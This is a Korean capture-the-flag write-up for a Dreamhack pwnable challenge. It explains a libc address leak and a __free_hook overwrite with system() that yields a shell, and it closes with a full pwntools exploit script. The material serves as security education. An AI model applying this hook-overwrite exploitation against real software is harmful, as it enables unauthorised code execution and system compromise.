 기존과 다르게 anon_7fe0f3f56라는 메모리에 문자열이 들어있으며 libc 바로 위에 위치하는것을 볼 수 있다.

---

익스플로잇 코드를 간단히 설명해보겠다. 우선 /bin/sh라는 문자열을 24번 write한다. 이후 2번 메뉴를 통해 24번쨰 글을 출력해서 해당 문자열이 위치한 주소를 얻은다음 libc까지의 offset을 구해 libc 주소를 leak 한다. 이렇게 libc주소를 구하면 offset 계산을 통해 free_hook, system 함수를 사용할 수 있다.

이후 3번 메뉴를 들어가면 오늘 날짜를 물어본다. 24일이라고 답을 하면 어떤 라인을 수정할 것인지 물어본다. 기드라를 통해 확인해 본 결과 직전에 물어본 오늘 날짜의 대한 문자열이 저장되는 메모리 주소에서 입력받은 숫자에 0x10e곱하고 0x1를 뺀 값을 더한 위치에 값을 read 한다. 따라서 libc_base + free_hook_offset에서  2번 메뉴를 통해 출력된 주소를 뺀 값을 입력하면 free hook에 접근 할 수 있다.

이제 어떤 값을 쓸 것인지 물어본다. 이 부분에는 system 함수의 주소를 넣어주면 이후 free함수의 인자로 주어진 메모리 영역의 문자열을 인자 삼아서 free함수 보다 free_hook이 먼저 실행된다. 그럼 결과적으로 24번째 메모리에 들어있는 /bin/sh를 인자로 하여 system 함수가 실행되기 때문에 shell을 얻을 수 있다.

free_hook을 오버라이트 하는 도중 계속 실패해서 gdb를 통해 찍어봤는데
```python
c.sendafter(b"to : ", p64(system))
```
위 코드를 이용하면 free_hook-0x8의 위치에 system주소가 들어가는것을 확인했다. 따라서 이를 다음과 같이 수정했다.
```python
c.sendafter(b"to : ", p64(system)*2)
```

최종 익스플로잇 코드는 다음과 같다.
```python
from pwn import *
context.update(arch='amd64', os='linux')
#c = remote("host3.dreamhack.games", 19538)
c = process("./santa_coming_to_town")
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

for i in range(1, 25):
    c.sendlineafter(b">> ", b"1")
    c.sendlineafter(b"? : ", str(i))
    c.sendlineafter(b") : ", b"10000")
    c.sendafter(b"~~~~~~~~~~contents~~~~~~~~~~\n", b"/bin/sh\x00")
    print("\rfor : "+str(i), end="")
    #print("for : "+ str(i))
print("\n")

c.sendlineafter(b">> ", b"2")
c.sendlineafter(b": ", b"24")
c.recvuntil(b"Pages : ")

leak = int(str(c.recvuntil(b"\n"))[2:-3], 16)
print("leak : "+hex(leak))
offset = 0x1DFFF0
libcAddr = leak+offset
system = libcAddr+libc.sym['system']

print("libc addr : "+hex(libcAddr))
print("system addr : "+hex(system))
#pause()
#프리훅 오버라이트, 원샷 가젯
freeHookOffset = libc.sym["__free_hook"]
freeHook = libcAddr + freeHookOffset
print("__free_hook address : "+hex(freeHook))

pause()

heapToFreehook = int((int(hex(freeHook), 16)-leak)/0x10)+0x1
print("heapToFreehook :" + hex(heapToFreehook))

c.sendlineafter(b">> ", b"3")
c.sendlineafter(b"it? : ", b"24")
c.sendlineafter(b"edit : ", str(heapToFreehook))
c.sendafter(b"to : ", p64(system)*2)
```